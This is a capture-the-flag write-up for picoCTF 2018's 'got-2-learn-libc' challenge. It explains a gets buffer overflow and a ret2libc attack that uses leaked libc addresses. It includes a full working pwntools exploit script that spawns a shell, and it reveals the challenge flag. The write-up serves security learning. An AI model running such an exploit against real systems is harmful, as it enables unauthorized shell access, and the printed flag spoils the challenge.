 ![title](images/title.png)

![hint](images/hint.png)

Lets break down the source if we can

### vuln.c

Three very important pieaces of information are here. Hints at our buffersize, a /bin/sh string that we can use to spawn a shell and the vulerable gets function we will use to fill the buffer and control the return pointer
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

char useful_string[16] = "/bin/sh"; /* Maybe this can be used to spawn a shell? */


void vuln(){
  char buf[BUFSIZE];
  puts("Enter a string:");
  gets(buf);
  puts(buf);
  puts("Thanks! Exiting now...");
}

```

This section contains some helpful addresses that we might be able to use to determine the address of libc which we can use to find the system address and use the /bin/sh string above to spawn a shell.

```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  puts("Here are some useful addresses:\n");

  printf("puts: %p\n", puts);
  printf("fflush %p\n", fflush);
  printf("read: %p\n", read);
  printf("write: %p\n", write);
  printf("useful_string: %p\n", useful_string);

  printf("\n");
  
  vuln();

  
  return 0;
}
```

Lets run the program and see what happens

```
/ctf_writeups/pico2018/binary/got-2-learn-libc# ./vuln
Here are some useful addresses:

puts: 0xf7e100a0
fflush 0xf7e0e4b0
read: 0xf7e8eea0
write: 0xf7e8ef40
useful_string: 0x56586030

Enter a string:
test
test
Thanks! Exiting now...
~/ctf_writeups/pico2018/binary/got-2-learn-libc# 
```

The binary is nice enough to give us two things that would help us a great deal: The address of puts and the address of /bin/sh

## Strategy

1. Find the libc offset for puts and system.
2. Find the buffer amount required to control the return pointer in gets
3. Build a payload consisting of buffer+main. This will allow us to gather the address output the binary gives us and store them in variables to use in the next payload.
4. Use our new variables to calculate the libc base
5. Build a payload consisting of buffer + system + main + /bin/sh string
6. Send the payload and spawn a shell

We can find the local libc by using **ldd ./vuln** which gives the following output

```
~/ctf_writeups/pico2018/binary/got-2-learn-libc# ldd ./vuln
	linux-gate.so.1 (0xf7fa7000)
	libc.so.6 => /lib32/libc.so.6 (0xf7da8000)
	/lib/ld-linux.so.2 (0xf7fa9000)
~/ctf_writeups/pico2018/binary/got-2-learn-libc# 
```

Our libc is /lib32/libc.so.6 which we can load using pwntools and pull the addresses from the symbols

The strategy did not work due to ASLR and the randomizing of the binary addresses which means we cant call main the way we intended. I noticed we are given the addresses from the binary before our input so we can collect that data then craft 1 payload instead of 2. The way we'll do this is take the puts address given to us and subtract the puts offset located in the libc binary used. This will give us the libc base. Then we can add the base and the system offset together from libc and find our the binary address for system. Combine that with the useful string and we can pop a shell and cat the flag.

## Strategy *Updated*

1. Find the libc offset for puts and system.
2. Find the buffer amount required to control the return pointer in gets
3. Collect the puts and /bin/sh addresses the binary gives us. Subtract puts - puts libc offset to gain libc base. Add libc base to system offset.
4. Build a payload consisting of buffer + system + any return address(i used 'AAAA') + useful_string. This will pop a shell and allow us to cat the flag

### apple.py

```python
#!/usr/bin/env python

from pwn import *
import sys

#context.log_level = 'critical'

#load our addresses and offsets
e = ELF('./vuln')
libc = ELF('/lib32/libc.so.6')
system_off = libc.symbols['system']
puts_off = libc.symbols['puts']

offset = system_off - puts_off

#find buffer amount
'''
pwn cyclic 172 | strace ./vuln
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x62616170} ---
+++ killed by SIGSEGV +++
Segmentation fault
pwn cyclic -l 0x62616170
160
'''
buf = 160

argc = len(sys.argv)

if argc > 1:
	from getpass import getpass
	ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
	p = ssh.process('vuln', cwd='/problems/got-2-learn-libc_0_4c2b153da9980f0b2d12a128ff19dc3f')
else:
	p = process('./vuln')

p.recvuntil('puts: ')
puts = int(p.recv(10), 16)
p.recvuntil('useful_string: ')
shell = int(p.recv(10), 16)

#calculate libc base
system = offset + puts

log.info(hex(shell))
log.info(hex(system))

sleep(1)
#build second payload
payload = ''
payload+= 'A'*buf
payload+= p32(system)
payload+= 'AAAA'
payload+= p32(shell)

#send payload and set interactive mode
p.sendline(payload)
p.interactive()
```

<details>
	<summary>Flag</summary>

picoCTF{syc4al1s_4rE_uS3fUl_b61928e8}
</details>